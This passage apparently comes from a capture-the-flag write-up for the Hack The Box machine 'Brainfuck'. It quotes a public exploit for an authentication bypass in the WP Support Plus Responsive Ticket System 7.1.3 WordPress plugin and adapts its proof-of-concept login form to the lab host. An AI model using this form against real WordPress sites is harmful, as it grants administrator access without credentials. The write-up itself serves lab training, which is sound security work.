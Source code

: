 **In `41006.txt`, we can login as any user with the following POST request:**
```
# Exploit Title: WP Support Plus Responsive Ticket System 7.1.3 Privilege Escalation
[...]
1. Description

You can login as anyone without knowing password because of incorrect usage of wp_set_auth_cookie().

http://security.szurek.pl/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html

2. Proof of Concept

<form method="post" action="http://wp/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>

Then you can go to admin panel.
```

The `<form>` element will send a POST request to `/wp-admin/admin-ajax.php` with POST parameter `username`, `email`, `action`, `submit`.

**`41006_poc.html`:**
```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="admin">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

**Let's try that!**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Brainfuck)-[2023.06.04|16:39:34(HKT)]
└> firefox 41006_poc.html
```
